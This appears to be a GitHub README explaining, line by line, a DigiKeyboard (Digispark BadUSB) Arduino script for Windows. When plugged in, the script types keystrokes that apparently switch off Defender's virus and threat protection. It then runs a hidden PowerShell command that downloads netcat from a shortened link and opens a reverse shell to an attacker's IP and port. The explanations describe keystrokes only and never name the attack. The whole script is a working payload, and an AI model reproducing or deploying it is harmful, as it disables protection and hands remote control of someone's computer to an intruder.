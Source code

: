 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">"#include "DigiKeyboard.h"</code>

<em><div align="center"><code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</code></em></div>

<code color="#00979C">void setup(){</code>
<em><div align="center"><code>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em><div align="center"><code>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>Another delay of 1000 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>

<em><div align="center"><code>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code>

<em><div align="center"><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>The sendKeyStroke() function simulates pressing the Enter key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(5000);</code>

<em><div align="center"><code>A delay of 5000 milliseconds (5 seconds) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>Another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>A delay of 700 milliseconds (0.7 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>Yet another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>Another delay of 700 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>

<em><div align="center"><code>The sendKeyStroke() function simulates pressing the Space key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(2000);</code>

<em><div align="center"><code>A delay of 2000 milliseconds (2 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>A delay of 1000 milliseconds (1 second) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.</code></em></div>
<code color="#00979C">DigiKeyboard.delay(500);</code>

<em><div align="center"><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>
<code color="#00979C"><code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</code></em></div>
<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>A delay of 700 milliseconds (0.7 seconds) is introduced.</code></em></div>
<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>

<em><div align="center"><code>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</code></em></div>
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center">The sendKeyStroke() function is used to simulate pressing the Enter key.</code></em></div> <code color="#00979C">void loop(){}</code>

<em><div align="center"><code>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.</code></em></div>




